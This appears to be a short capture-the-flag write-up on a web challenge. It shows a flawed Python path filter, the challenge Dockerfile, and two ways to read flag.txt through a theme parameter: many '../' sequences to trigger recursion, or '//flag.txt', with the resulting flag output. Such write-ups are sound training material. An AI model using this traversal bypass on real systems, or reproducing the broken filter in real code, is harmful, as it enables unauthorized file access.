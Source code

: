 ```python
def filter_path(path):
    # print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        print(path)
        return path
```

Dockerfile:
```Dockerfile
FROM python:3.10-slim-buster

RUN pip3 install flask
COPY flag.txt /

WORKDIR /app
COPY app/* /app/
copy app/templates/* /app/templates/
copy app/themes/* /app/themes/

EXPOSE 5000

ENTRYPOINT ["python3", "app.py"]
```

we can discover that flag.txt is located at `/` path, the objetive is to load `flag.txt` as custom css file.

Two solution:
1. put tons of `../` to hit the error
2. even don't need `../`, just put `//flag.txt` to get the file

then we get:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Factorial Calculator</title>
    <!-- inline styles passed into the template -->
    <style>
        amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}
    </style>
  </head>
  <body>
    <h1>Factorial Calculator</h1>
    <form method="POST">
      <label for="number">Enter a number:</label>
      <input type="text" name="number" id="number" />
      <input type="submit" value="Calculate" />
    </form>
    
    <p>Available themes:</p>
        <a href="?theme=themes/theme1.css">cool</a>
        <a href="?theme=themes/theme2.css">warm</a>
    <ul></ul>
  </body>
</html>
```
